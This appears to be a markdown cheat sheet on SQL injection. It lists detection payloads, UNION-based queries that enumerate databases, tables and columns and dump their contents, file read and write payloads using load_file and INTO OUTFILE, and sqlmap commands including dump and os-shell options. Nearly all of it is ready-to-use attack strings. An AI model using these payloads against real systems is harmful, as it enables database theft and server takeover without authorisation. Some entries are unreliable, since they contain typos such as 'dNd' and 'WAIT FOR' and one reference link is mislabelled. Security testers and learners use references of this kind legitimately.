 # SQL injection

The SQL injection is one of the most common code injection technique that aims at getting access to the database. It's possible by improper handling of user input by the application. 

Related to: <br />
-Language: SQL <br />
-Platform: Any (requires interaction with a SQL database) <br />

Types of SQL injection: <br />
1) Error based <br />
2) Boolean based blind <br />
3) Time based blind <br />

Toolset: Burp Suite, SQL Map. <br />

Detection
-----------------------------------------------------------------------------

Detection of Error based SQL injection:
```
'
"
#
;
)
```
Encoding:
```
%27
%22
%23
%3B
```
Multiple encoding:
```
%%2727
%%2222
%%2323
%%3B3B
```
Detection of Boolean based blind SQL injection:<br />
TRUE statements:
```
aNd 1=1
aNd 21=21
anD 1=1;//
orDeR bY 1
```
FALSE statements:
```
dNd 0=1
anD 9=2
anD 57=276;//
ordEr bY 1000000000000
```
Characters to use instead of spaces:
```
+ 
/**/
%20
```
Comments to end the queries:
```
/*
//
#
%23
--
```

Detection of Time based blind:
```
aNd sleep
SLEEP(15)
BENCHMARK(100000000, rand())
WAIT FOR DELAY '00:00:15'
WAIT FOR TIME '00:00:15'
```


Exploitation
-----------------------------------------------------------------------------

General select syntax:
```
UniOn selEct [number of columns] [comment]
```

Example: Assume that there are two columns and the second column can be used to display data from db.
```
Seleting database version:
UniOn selEct 1,version() /*

Database:
UniOn selEct 1,database() /*

Database user:
UniOn selEct 1,user() /*

Database tables:
UniOn selEct 1,table_name frOm information_schema.tables where table_schema = '[database name]' /*

Table Columns:
UniOn selEct 1,column_name frOm information_schema.columns where table_name = '[table name]' /*

Selecting data from table:
UniOn selEct 1,[column name] frOm [table name] /*

Reading files:
UniOn selEct 1,load_file('file location') /*

Writing files:
UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*
```
Notes:<br />
When you executing queries you need to consider encodings.<br />

Example of encoding query to utf8:
```
UniOn select table_name COLLATE utf8_general_ci,table_schema COLLATE utf8_general_ci,'1' from information_schema.tables
```

SQL Map
-----------------------------------------------------------------------------

```
sqlmap -u [url] --- scan the provided url

sqlmap -u [url] —-dbs --- show the databases 

sqlmap -u “url” —-tables -D [database name] --- show all tables from [database name]

sqlmap -u “url” —-columns -T [table name] -D [database name] --- show all columns from [table name] in [database name]

sqlmap -u “url” -T [table name] -D [database name] —-dump --- show all data from [table name] in [database name]

sqlmap -u “url” —-os-shell --- OS shell 

sqlmap -u “url” —-sql-shell --- SQL shell
```
-----------------------------------------------------------------------------
References:
[Wikipedia](https://en.wikipedia.org/wiki/SQL_injection)  
[Owasp](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
